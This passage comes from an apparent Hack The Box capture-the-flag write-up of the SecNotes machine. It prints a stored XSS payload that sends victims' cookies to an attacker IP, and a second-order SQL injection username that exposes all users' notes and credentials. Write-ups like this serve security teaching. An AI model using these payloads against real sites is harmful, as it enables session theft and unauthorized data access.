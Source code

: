 But we won't be able to do anything useful with this since only our own user sees the error.

### Finding #3: Stored XSS in the notes applications

The notes application doesn't escape any of the input data so we can embed javascript in the notes and attempt to steal cookies. Unfortunately there is no other user connecting and checking the notes so this is not useful for us here (we can't steal session cookies of a logged on user).

Payload: `<script>document.write('<img src="http://10.10.14.23:80/collect.gif?cookie=' + document.cookie + '" />')</script>`

![](/assets/images/htb-writeup-secnotes/4.png)

![](/assets/images/htb-writeup-secnotes/5.png)

### Finding #4: 2nd order SQL injection on the registration page

There's an SQL injection vulnerability on the `home.php` page that we can abuse by creating a user with the following name: `test' or 1=1-- -`

Once we log in after, the notes page will display all the notes from all users. The resulting query probably ends up being something like `SELECT * FROM notes WHERE user = 'test' OR 1=1` so that basically returns all the notes because of the TRUE condition.

One of the notes contains the credentials for the `Tyler` user.
